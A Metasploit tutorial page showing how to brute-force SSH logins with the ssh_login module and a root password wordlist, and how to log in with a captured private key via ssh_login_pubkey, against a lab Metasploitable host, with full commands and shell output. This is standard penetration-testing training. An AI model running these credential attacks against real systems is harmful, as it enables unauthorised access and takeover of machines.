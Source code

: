 # ssh_login

The ssh_login module is quite versatile in that it can not only test a set of credentials across a range of IP addresses, but it can also perform brute force login attempts. We will pass a file to the module containing usernames and passwords separated by a space as shown below.

```bash
root@kali:~# head /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
root
root !root
root Cisco
root NeXT
root QNX
root admin
root attack
root ax400
root bagabu
root blablabla
```
Next, we load up the scanner module in Metasploit and set USERPASS_FILE to point to our list of credentials to attempt.

```bash
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(ssh_login) > set RHOSTS 192.168.1.154
RHOSTS => 192.168.1.154
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
msf auxiliary(ssh_login) > set VERBOSE false
VERBOSE => false
```
With everything ready to go, we run the module. When a valid credential pair is found, we are presented with a shell on the remote machine.

```bash
msf auxiliary(ssh_login) > run

[*] 192.168.1.154:22 - SSH - Starting buteforce
[*] Command shell session 1 opened (?? -> ??) at 2010-09-09 17:25:18 -0600
[+] 192.168.1.154:22 - SSH - Success: 'msfadmin':'msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
exit
[*] Command shell session 1 closed.
msf auxiliary(ssh_login) >
```
# ssh_login_pubkey

Using public key authentication for SSH is highly regarded as being far more secure than using usernames and passwords to authenticate. The caveat to this is that if the private key portion of the key pair is not kept secure, the security of the configuration is thrown right out the window. If, during an engagement, you get access to a private SSH key, you can use the ssh_login_pubkey module to attempt to login across a range of devices.

```bash
msf > use auxiliary/scanner/ssh/ssh_login_pubkey
msf auxiliary(ssh_login_pubkey) > show options

Module options (auxiliary/scanner/ssh/ssh_login_pubkey):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------

   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   KEY_PATH                           yes       Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub" will be skipped.
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(ssh_login_pubkey) > set KEY_FILE /tmp/id_rsa

KEY_FILE => /tmp/id_rsa
msf auxiliary(ssh_login_pubkey) > set USERNAME root
USERNAME => root
msf auxiliary(ssh_login_pubkey) > set RHOSTS 192.168.1.154
RHOSTS => 192.168.1.154
msf auxiliary(ssh_login_pubkey) > run

[*] 192.168.1.154:22 - SSH - Testing Cleartext Keys
[*] 192.168.1.154:22 - SSH - Trying 1 cleartext key per user.
[*] Command shell session 1 opened (?? -> ??) at 2010-09-09 17:17:56 -0600
[+] 192.168.1.154:22 - SSH - Success: 'root':'57:c3:11:5d:77:c5:63:90:33:2d:c5:c4:99:78:62:7a' 'uid=0(root) gid=0(root) groups=0(root) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login_pubkey) > sessions -i 1
[*] Starting interaction with 1...

ls
reset_logs.sh
id
uid=0(root) gid=0(root) groups=0(root)
exit
[*] Command shell session 1 closed.
msf auxiliary(ssh_login_pubkey) >
```











